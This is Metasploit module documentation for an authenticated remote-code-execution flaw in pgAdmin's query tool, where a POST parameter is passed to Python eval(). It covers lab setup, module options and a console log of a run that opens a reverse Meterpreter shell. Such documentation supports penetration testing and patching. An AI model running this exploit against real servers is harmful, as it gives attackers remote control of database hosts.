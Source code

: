 ## Vulnerable Application

### Description

This module exploits a vulnerability in pgAdmin where an authenticated user can establish a connection to the query tool
and send a specific payload in the query_commited POST parameter. This payload is directly executed via a Python eval()
statement, resulting in remote code execution in versions prior to 9.2.

To exploit this vulnerability, pgAdmin credentials are required. Additionally, in order to interact with the vulnerable
SQL editor component, valid database credentials are necessary to initialize a session and obtain a transaction ID,
which is required for the exploit.


### Setup

A pgAdmin Docker instance can be started using the following command:
```bash
docker run -d -p 8484:80 -e PGADMIN_DEFAULT_EMAIL=admin@admin.com -e PGADMIN_DEFAULT_PASSWORD=adminpassword --name pgadmin dpage/pgadmin4:9.0
```
A PostgreSQL database needs to be connected to the pgAdmin instance in order to exploit. The version of postgresql doesn't matter:
```bash
docker run -d -p 5432:5432 --name postgres -e POSTGRES_PASSWORD=mysecretpassword -e POSTGRES_USER=pgadminuser -e POSTGRES_DB=pgadmin postgres:latest
```

## Verification Steps
1. Start msfconsole.
1. Do: use exploit/multi/http/pgadmin_query_tool_authenticated.
1. Set the RHOST, USERNAME, PASSWORD, DB_USER, DB_PASS AND DB_NAME options.
1. Run the module.
1. Receive a Meterpreter session as the pgAdmin user. 

## Options

### USERNAME
The username for authentication (required).

### PASSWORD
The password for authentication (required).

### DB_USER
The database username to authenticate to the database with (required).

### DB_PASS
The password to authenticate to the database with (required).

### DB_NAME
The name of the database to target (required)

### MAX_SERVER_ID
The maximum number of Server IDs to try and connect to. This is used to determine the correct server ID for the exploit.
A valid `sid` is required in order to connect to the query_tool in order to exploit. The default value is 10.

## Scenarios
### pgAdmin 4 v9.0
```
msf6 exploit(multi/http/pgadmin_query_tool_authenticated) > run db_name=postgres db_user=pgadminuser db_pass=mysecretpassword rhost=127.0.0.1 rport=8484 username=admin@admin.com password=adminpassword lhost=172.16.199.1 MAX_SERVER_ID=10 verbose=true
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 9.0.0 is affected
[+] Successfully authenticated to pgAdmin
[*] Trying server ID: 1
[*] Trying server ID: 2
[*] Trying server ID: 3
[+] Successfully initialized sqleditor
[*] Exploiting the target...
[*] Sending stage (24772 bytes) to 172.16.199.1
[+] Received a 500 response from the exploit attempt, this is expected
[*] Meterpreter session 3 opened (172.16.199.1:4444 -> 172.16.199.1:62455) at 2025-04-09 17:05:17 -0700

meterpreter > getuid
Server username: pgadmin
smeterpreter > sysinfo
Computer     : e9b855f7cda2
OS           : Linux 6.10.14-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Mar 20 16:36:58 UTC 2025
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```
